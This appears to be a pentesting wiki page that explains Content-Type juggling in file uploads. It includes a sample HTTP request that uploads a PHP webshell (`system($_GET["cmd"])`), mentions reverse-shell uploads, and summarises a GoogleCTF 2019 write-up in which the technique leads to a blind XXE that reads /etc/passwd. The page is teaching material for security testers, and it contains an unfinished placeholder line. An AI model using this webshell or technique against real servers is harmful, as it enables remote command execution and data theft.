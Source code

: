 # 🛠️ Content-type juggling

## Theory

**Content-type juggling** exploits the lack of checking on the `Content-Type` header when submitting a HTTP request.

**It is often used to perform [unrestricted-file-upload](unrestricted-file-upload.md)**.

{% hint style="info" %}

The Content-Type header is used to indicate the MIME type of the resource.

- In requests, (such as POST or PUT), the client tells the server what type of data was actually sent.

- In responses, a Content-Type header tells the client what type of content is actually being returned. Browsers may try to detect the MIME type of content by inspecting it rather than by respecting the value of this header.

{% endhint %}


### Example

Let's take this HTML form and the POST request following the submit of this form. 

```HTML
<form action="/" method="post" enctype="multipart/form-data">
  <input type="text" name="description" value="some text" />
  <input type="file" name="myFile" />
  <button type="submit">Submit</button>
</form>
```

```
POST /foo HTTP/1.1
Content-Length: 68137
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.txt"
Content-Type: text/plain

(content of the uploaded file foo.txt)
-----------------------------974767299852498929531610575--
```

The first `Content-Type` header use the `enctype`. The second one tells the server what type of data was actually sent, here, a file.

### Vulnerability

It is possible to intercept the request above and perform a `Content-Type juggling`. To do this, switch the Content-Type Header to whatever you want.
In the example below, we managed to upload a PHP webshell thanks to the Content-Type juggling, changing it from `text/plain` to `application/php`

```
POST /foo HTTP/1.1
Content-Length: 68137
Content-Type: multipart/form-data; boundary=---------------------------974767299852498929531610575

-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="description"

some text
-----------------------------974767299852498929531610575
Content-Disposition: form-data; name="myFile"; filename="foo.php"
Content-Type: application/php

 <?php system($_GET["cmd"]); ?>
-----------------------------974767299852498929531610575--
```

## Issue

If the XCTO (X-Content-Type-Options) security header is present, it will be difficult to perform the Content-Type juggling. As you can read in [mime-sniffing](../../web/config/http-headers/mime-sniffing.md). XCTO security header can be used to indicate that the MIME types advertised in the Content-Type headers should be followed and not be changed by the browser depending on the page's content. Websites that implement that security header with the nosniff directive must also include a valid Content-Type header in their responses.

## Practice

In order to identify if the target is vulnerable to Content-Type juggling, testers need to answer the following questions:&#x20;
- Is there a post request with value(s) and Content-Type header ?
- Is there no presence of the X-Content-Type-Options security header ?
- Can we edit the Content-Type header and still submit the post request successfully ?

If you answered yes to all the questions, then you should be able to perform Content-Type juggling. Don't forget that, most of the time, Content-Type juggling is a way to upload unattended payload (reverse-shell when the form is used to submit pictures).

Here is the list of all the Content-Type possibilities : 

The most common types are:

INSERT SCHEMA TYPES

### Example

For this example, we're going to use the writeup from @Nicholaz99 explaining one of the GoogleCTF challenge from 2019.
The first URL lead to this page, that is a form that we can submit.

![WebPage from GoogleCTF 2019](../../.gitbook/assets/CT-JUGGLING-1.png)

When intercepting the request, we can see that the search API will post a JSON with key “message” and a value of the city that you pick in Braille Dots (Zurich =  135601360123502401401250). 

![Intercepting the request](../../.gitbook/assets/CT-JUGGLING-2.png)

Now, we can start answering the practice questions that we mentioned above. In this case, the two first can be answered by "yes". For the third, we have to try to perform a Content-Type juggling. We are going to change the Content-Type from `application/json` to `application/xml`. Doing so, we can try to execute a XXE payload.

![Performing Content-Type smuggling](../../.gitbook/assets/CT-JUGGLING-3.png)

As you can see above, it works. By combining Content-Type juggling with another attack, it's possible to extract informations.

The last screenshot shows how to perform a blind XXE. You can read more about it in  [xxe-injection](xxe-injection.md). Doing so, we are able to extract the "/etc/passwd" file on the server.

![Crafting an XXE payload to extract /etc/passwd](../../.gitbook/assets/CT-JUGGLING-4.png)


## Ressources

{% embed url="https://medium.com/hmif-itb/googlectf-2019-web-bnv-writeup-nicholas-rianto-putra-medium-b8e2d86d78b2" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#content-type-from-json-to-xee2" %}

{% embed url="https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Type" %}
